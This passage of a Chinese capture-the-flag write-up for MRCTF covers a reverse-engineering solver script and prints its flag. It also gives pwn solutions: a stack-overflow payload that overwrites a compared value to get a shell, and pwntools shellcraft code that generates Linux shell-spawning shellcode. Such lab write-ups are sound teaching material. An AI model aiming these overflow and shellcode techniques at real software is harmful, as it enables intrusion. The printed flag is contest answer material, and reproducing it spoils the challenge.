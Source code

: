 ```python
def fun():
	fun1(15, 2)
	fun2(14,15)
	fun3(12,2, 0)
	fun2(11,12)
	fun3(10,7,1)
	fun3(9,8,2)
	fun2(8,7)
	fun1(7,3)
	fun3(6,1,3)
	fun2(4,5)
	fun3(3,7, 4)
	fun1(2,7)
	fun2(1,2)
	fun1(0,10)


for j in range(16):
	fun()
	xor()
	print(cipher)
print(''.join(map(chr,cipher)))
#MRCTF{@_7r3e_f0r_fuNN!}
```

就是全部为0，都是减法的时候就得到flag，

# pwn

## easyoverflow

栈溢出覆盖，去修改他们比较的值就可以直接getshell

```python
payload = 'a' * 48 + 'n0t_r3@11y_f1@g'
```

## shellcode

就是直接写shellcode的题目，

可以直接用pwntools里面的shellcraft去生成，

```python
context(os='linux', arch='amd64')
payload = asm(shellcode = shellcraft.amd64.linux.sh()
)
```

注意使用asm要先设置context

## Easy_equation

